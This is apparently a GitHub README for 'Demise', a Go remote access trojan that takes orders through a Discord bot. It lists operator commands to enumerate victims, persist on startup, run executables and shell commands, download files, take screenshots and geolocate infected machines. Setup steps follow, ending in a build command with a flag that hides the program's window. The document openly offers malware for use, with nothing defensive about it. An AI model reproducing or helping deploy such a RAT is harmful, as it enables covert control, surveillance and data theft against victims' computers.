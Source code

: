 # Demise

Demise is Golang malware that uses Discord for communication. 

![image](https://user-images.githubusercontent.com/99378532/184524385-89bda0f6-b46d-4e5e-868f-f044dac0ae1d.png)

# Demo

![image](https://user-images.githubusercontent.com/99378532/184524374-a18668bc-7888-4912-b4be-269bedde7b6e.png)

# Commands
- show victims connected
```$victims```

- extract a zip file
```$unzip <username> <.zip file on drive> <directory to extract in>```

- run Demise on startup
```$startup <username>```

- run an executable (some executables require admin)
```$run <username> <location of exe>```

- download file
```$dl <username> <url> <name of file>```

- run commands
```$shell <username> <command> <flags... optional>```

- screenshot desktop
```$ss <username>```

- get IP
```$ip <username>```

- kill session
```$kill <username>```

- geolocate
```$geoloc <username>```


# HOWTO

1. Download the source code
2. Download golang https://go.dev choose the correct install for your os
3. make a server (this is a discord bot RAT)
4. make a bot. I won't show you how because there are many tutorial on youtube https://www.youtube.com/watch?v=7A-bnPlxj4k&t=20s
5. add the bot to your server and make a new text channel in your server
6. copy your bot's token and the id of the text channel you just created
![image](https://user-images.githubusercontent.com/99378532/192041038-0c5dcd79-a98b-45ea-88fe-800bb28e5fbe.png)
7. put the channel id here at the beginning of the source code 
![image](https://user-images.githubusercontent.com/99378532/192041183-22706c07-32f7-4763-b822-d90cdd3c092b.png)
8. put your bot's token here
9. compile with a command similiar to this one ```go build -ldflags="-s -w -H=windowsgui" .``` ```-H=windowsgui``` will hide the window

if the bot doesn't respond to commands change your intents


